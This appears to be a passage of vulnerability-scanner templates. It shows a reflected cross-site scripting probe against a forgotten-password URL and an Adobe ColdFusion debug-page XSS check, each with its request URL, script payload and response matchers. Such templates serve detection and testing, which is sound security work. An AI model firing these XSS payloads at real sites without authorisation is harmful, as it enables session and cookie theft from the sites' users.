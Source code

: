 ### URL

- {{BaseURL}}/guest/users/forgotten?email=%22%3E%3Cscript%3Econfirm(document.domain)%3C/script%3E

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. ">\<script>confirm(document.domain)\</script>
- part - body

**Type - word**

- words
  1. text/html
- part - header

---

# Adobe ColdFusion - Cross-Site Scripting

## Description

- Adobe ColdFusion debug page contains a cross-site scripting vulnerability when the application is running on a remote host. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - adobe,coldfusion,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/CFIDE/debug/cf_debugFr.cfm?userPage=javascript:alert(1)
- {{BaseURL}}/cfusion/debug/cf_debugFr.cfm?userPage=javascript:alert(1)

### Matchers

**Type - word**

- part - body
- words
  1. "cf_main_cf" src="javascript:alert(1)"
